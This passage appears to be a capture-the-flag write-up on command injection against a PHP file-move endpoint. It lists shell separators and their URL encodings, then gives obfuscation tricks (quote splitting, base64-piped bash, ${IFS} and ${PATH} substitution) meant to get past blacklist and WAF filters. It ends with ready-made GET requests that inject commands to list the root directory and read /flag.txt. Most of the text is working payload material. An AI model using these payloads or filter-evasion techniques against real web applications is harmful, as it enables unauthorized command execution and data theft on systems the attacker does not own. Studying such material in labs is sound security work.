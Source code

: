____

```bash
;
%3b
\n
%0a
&
%26
|
%7c
&&
%26%26
||
%7c%7c
``
%60%60
$()
%24%28%29
```

```bash
uname
u'n'a'm'e
${uname}
$(uname)
{uname}
$(rev<<<'emanu')
bash<<<$(base64 -d<<<dW5hbWUgLWE=)
b'a's'h'<<<$('b'a's'e'6'4 -d<<<dW5hbWUgLWE=)
l's'${IFS}${PATH:0:1}${IFS}-a'l'
```

> Modifying the request in repeat with a Payload to list the root `/` folder and list all hidden files with the command, `&$()ls / -al`. The obfuscated payload below:

```
GET /index.php?to=tmp%26$()l's'${IFS}${PATH:0:1}${IFS}-a'l'&from=2561732172.txt&finish=1&move=1 HTTP/1.1
```

> Bash command to read the flag contents, `&$()cat /flag.txt`.  
> Below is the obfuscated command injection payload to bypass blacklisted commands and characters through WAF filters.

```
GET /index.php?to=tmp%26$()c'a't${IFS}${PATH:0:1}flag.txt&from=2561732172.txt&finish=1&move=1 HTTP/1.1
```

